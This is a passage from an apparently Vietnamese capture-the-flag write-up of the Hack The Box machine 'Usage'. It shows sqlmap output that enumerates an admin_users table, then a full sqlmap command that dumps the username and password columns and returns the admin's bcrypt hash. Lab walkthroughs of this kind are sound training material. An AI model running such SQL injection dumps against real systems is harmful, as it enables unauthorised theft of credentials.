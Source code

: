 ```pyhton
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
8
[00:07:22] [INFO] retrieved: avatar
[00:07:32] [INFO] retrieved: created_at
[00:07:53] [INFO] retrieved: id
[00:07:56] [INFO] retrieved: name
[00:08:03] [INFO] retrieved: password
[00:08:24] [INFO] retrieved: remember_token
[00:08:49] [INFO] retrieved: updated_at
[00:09:07] [INFO] retrieved: username
[00:09:20] [INFO] fetching entries for table 'admin_users' in database 'usage_blog'
[00:09:20] [INFO] fetching number of entries for table 'admin_users' in database 'usage_blog'
[00:09:20] [INFO] resumed: 1
[00:09:20] [INFO] retrieved: Administrator
[00:09:46] [INFO] retrieved: 
```

Tiếp tục khai thác với 2 cột *username* và *password*

```python
┌──(kali㉿kali)-[~/HTB-Usage]
└─$ sudo sqlmap -r request.txt --level=5 --risk=3 -D usage_blog -T admin_users -C username,password --dump --batch
        ___
       __H__                                                                                                                                                                                                            
 ___ ___[)]_____ ___ ___  {1.8.4#stable}                                                                                                                                                                                
|_ -| . [(]     | .'| . |                                                                                                                                                                                               
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                            

[00:12:26] [INFO] fetching entries of column(s) 'password,username' for table 'admin_users' in database 'usage_blog'
[00:12:26] [INFO] fetching number of column(s) 'password,username' entries for table 'admin_users' in database 'usage_blog'
[00:12:26] [INFO] resumed: 1
[00:12:26] [INFO] resumed: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
[00:12:26] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:12:26] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
admin
Database: usage_blog
Table: admin_users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+----------+--------------------------------------------------------------+

[00:12:36] [INFO] table 'usage_blog.admin_users' dumped to CSV file '/root/.local/share/sqlmap/output/usage.htb/dump/usage_blog/admin_users.csv'
```